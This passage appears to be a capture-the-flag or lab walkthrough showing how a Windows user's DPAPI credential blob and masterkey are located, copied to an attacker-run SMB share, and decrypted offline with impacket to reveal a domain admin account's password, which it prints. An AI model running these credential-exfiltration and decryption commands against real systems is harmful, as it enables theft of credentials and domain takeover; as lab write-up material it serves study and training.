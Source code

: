 While enumerating as `steph.cooper`, found DPAPI credential blob and masterkey:

```powershell
# Credential blob:
dir C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\
# -> C8D69EBE9A43E9DEBF6B5FBD48B521B9

# DPAPI Masterkey:
dir C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\
# -> 556a2412-1275-4ccf-b721-e6a0b4f90407
```

Transferred blobs via impacket-smbserver:

```bash
impacket-smbserver share ./share -smb2support
```
On target:
```powershell
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407" \\10.10.14.xx\share\masterkey_blob
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" \\10.10.14.xx\share\credential_blob
```

---

## Offline DPAPI Credential Decryption

**1. Decrypt Masterkey:**

```bash
python3 /usr/share/doc/python3-impacket/examples/dpapi.py masterkey -file masterkey_blob -password 'ChefSteph2025!' -sid S-1-5-21-1487982659-1829050783-2281216199-1107
# Output: Decrypted key: 0xd9a570...
```

**2. Decrypt Credential Blob:**

```bash
python3 /usr/share/doc/python3-impacket/examples/dpapi.py credential -f credential_blob -key <decrypted_key>
```
Output:
```
Username : steph.cooper_adm
Password : FivethChipOnItsWay2025!
```

---

## Final Privilege Escalation: Domain Admin

With the credentials for `steph.cooper_adm`, further escalation or domain compromise is possible (not shown here).

---